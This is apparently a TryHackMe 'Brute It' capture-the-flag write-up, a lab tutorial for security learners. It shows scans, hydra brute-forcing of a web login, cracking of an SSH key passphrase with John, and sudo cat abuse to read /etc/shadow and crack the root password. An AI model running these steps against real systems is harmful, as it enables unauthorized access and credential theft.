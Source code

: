      
- Here, I'll take you through what you need to breeze through this room. It's pretty straightforward—you'll use tools like nmap, gobuster, hydra, and just need some basic know-how with RSA keys and Linux privilege escalation.

-  We’ll start this challenge with an nmap scan which will usually be our first action.
```shell
$ nmap -sC -sV 10.10.62.20
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 - We only find the Apache2 default page when we put the IP in our browser.
     - We can see the Apache2 Ubuntu Default Page.
     - We didn't find any usefull stuff here.

- Next we’re going to run a Gobuster scan with our chosen directory list in order to find any hidden directories on the website.
```
$ gobuster dir -u http://10.10.148.67/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.67/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.148.67/admin/]
```
 
- When we go to that directory in our browser, we are faced with a simple login form.
 ![[Pasted image 20240711110013.png]]!

- Let’s check the source of the page in case there’s anything there that can help us.
![[Pasted image 20240711115339.png]]
- So here we can see the user name which is "admin"

- Now we have to use hydra for grab the password of the login page 
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt <machine ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -t 64 -V

[80][http-post-form] host: 10.10.62.20   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
```
- Here we can see the password.
- Now let's login.

![[Pasted image 20240711121438.png]]
- So here we got the RSA key.
- Also we can see the web flag

- We can follow the link to the RSA key and use wget to download it to our machine.
```
$ wget http://10.10.62.20/admin/panel/id_rsa > john.id_rsa
Connecting to 10.10.62.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa.1’

id_rsa.1                      100%[==============================================>]   1.72K  --.-KB/s    in 0s      

2024-07-11 12:19:40 (129 MB/s) - ‘id_rsa.1’ saved [1766/1766]
```

- Next, we need to convert the key into a hash format that John the Ripper can work with by using ssh2john.
```
$ python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

- Then we can run the hash file through John and receive the passphrase for the RSA key.
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

rockinroll       (id_rsa)

1g 0:00:00:00 DONE (2024-07-11 10:14) 12.50g/s 908000p/s 908000c/s 908000C/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- So we got the password, now lets login as a user.
```
 $ ssh -i id_rsa john@10.10.148.67
The authenticity of host '10.10.148.67 (10.10.148.67)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.67' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```

- Let's grab the user flag.
```
john@bruteit:~$ cat user.txt
THM{**********************}
```

- It’s time to find a way to get root access.
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- Let’s look that up on GTFOBins.
- We find out that we can exploit this in order to read a file.
```
john@bruteit:/home$ cd 
john@bruteit:~$ cd ../..
john@bruteit:/$ LFILELFILE^C
john@bruteit:/$ LFILE=/etc/shadow
john@bruteit:/$ sudo cat "$LFILE"
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

- I think we also have to read the /etc/passwd.
```
john@bruteit:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

- Now we create two files in .txt format (shadow, passwd) we need for the unshadow command.
```
$ unshadow passwd.txt shadow.txt > boss.txt
```

- Again we use john for getting the root password. 
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt boss.txt    
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
--------------------------------------------------------------------------------
```

- Now just simply login as a root.
```
john@bruteit:/$ su root
Password: 
root@bruteit:/# cd /root
root@bruteit:~# ls
root.txt
THM{**********************}
```

***Thanks to everyone who took the time to read my write-up. I hope you found it helpful and informative.***

 Myself 'Indranil Sen',  AKA 'HckN1L'
   [X]( https://x.com/HckN1L) , [linkedIn](https://www.linkedin.com/in/indranil-sen-a1888a256)
	
